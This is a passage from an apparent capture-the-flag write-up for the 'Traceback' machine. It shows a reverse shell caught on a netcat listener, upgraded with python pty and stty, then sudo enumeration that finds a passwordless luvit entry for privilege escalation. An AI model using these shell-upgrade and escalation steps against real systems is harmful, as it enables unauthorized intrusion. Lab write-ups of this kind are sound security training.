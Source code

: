 We get a connection on our listener as the user webadmin.

### Upgrading our shell

We can check the system for python and python3, which we can use to upgrade our shell.

```bash
which python
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
webadmin@traceback:/var/www/html$ ^Z
[1]+  Stopped                 nc -lvnp 443
root@darkness:~# stty raw -echo
root@darkness:~# nc -lvnp 443

webadmin@traceback:/var/www/html$ export TERM=xterm
```



## Privesc

Now that we got our initial shell, let us enumerate the system to find a way to escalate our privileges to user.

### Privesc to user

Let us start with simple linux-enumeration.

#### Enumeration as webadmin

Let us check if we have any sudo privileges:

```bash
webadmin@traceback:/var/www/html$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

We can also check out our home-directory.

```bash
webadmin@traceback:/home/webadmin$ cat note.txt 
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

Seems like the tool (probably our sudo privileged script) is running lua.

Let us run the script using sudo as the user sysadmin.
